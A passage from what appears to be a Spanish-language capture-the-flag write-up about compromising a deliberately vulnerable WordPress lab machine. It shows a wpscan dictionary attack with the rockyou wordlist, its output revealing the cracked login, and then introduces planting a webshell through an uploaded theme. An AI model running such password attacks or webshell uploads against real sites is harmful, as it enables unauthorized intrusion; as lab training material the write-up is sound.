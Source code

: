 - Intenté buscar archivos que pueda leer para realizar un POISONING y ejecutar comandos. No encontré ninguno.

### 4.2. Cracking ONLINE

- Teníamos el usuario "c0rrupt3d_brain", tocaba intentar un ataque clásico de diccionario.

```
┌──(root💀kali)-[~/EVM]
└─# wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain --passwords /usr/share/wordlists/rockyou.txt -t 50

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0rrupt3d_brain / 24992499                                                                                         
Trying c0rrupt3d_brain / annette1 Time: 00:03:33 <                                   > (10700 / 14355092)  0.07%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
```

<img src="https://github.com/El-Palomo/EVM1/blob/main/evm6.jpg" width=80% />

### 4.3. WEBSHELL a través de Wordpress

- Ahora que ya teníamos acceso a Wordpress. Tenemos dos opciones: Subir un THEME con una webshell o EDITAR un theme/plugin para colocar una webshell. el primero resultó el más facil.
